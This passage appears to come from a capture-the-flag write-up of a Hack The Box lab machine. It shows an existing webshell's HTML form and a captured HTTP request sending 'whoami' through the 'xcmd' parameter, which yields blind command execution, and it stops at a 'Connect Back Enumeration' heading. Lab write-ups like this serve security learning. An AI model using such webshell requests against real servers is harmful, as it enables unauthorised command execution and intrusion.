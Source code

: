 ![image-20220405084225083](https://0xdfimages.gitlab.io/img/image-20220405084225083.png)

#### Interacting with Webshell

Typing “whoami” into the field and hitting enter returns an error:

![image-20220405084744959](https://0xdfimages.gitlab.io/img/image-20220405084744959.png)

Looking for closely at the previous page source, it’s super simple:

```

<html>
<body>

<form action="cmd.aspx" method=POST>
<p>Enter your shell command: <input type=text name=xcmd size=40> </form> </body> </html>

```

The `action` is a POST to `cmd.aspx`, and since the full path isn’t given, that targets `http://10.10.10.57:62696/cmd.aspx`, which doesn’t exist. It’s also sending a parameter named `xcmd`. I can see this in my failed request in Burp as well:

```

POST /cmd.aspx HTTP/1.1
Host: 10.10.10.57:62696
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.57:62696/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Connection: close
Cookie: ASPSESSIONIDACQBQRTB=GEFBPLMBLIENILKPDIEMHAFA; ASPSESSIONIDCCSDSSRA=LKPPKPACGFAOPJNAIOFNFBOD; ASPSESSIONIDAASCSSQA=FECBOJBCDDJHILMFPBADGLND
Upgrade-Insecure-Requests: 1

xcmd=whoami

```

I can hope that this webshell accepts GET requests as well as post requests and put the parameter in the URL, and it works, kind of:

![image-20220405113553751](https://0xdfimages.gitlab.io/img/image-20220405113553751.png)

If I change `whoami` to something that doesn’t exist as a command like `0xdf`, it returns “Exit Status=1”. This fits, as a successful command typically returns 0, and otherwise shows an error. So I have probably code execution, but it’s blind.

### Connect Back Enumeration

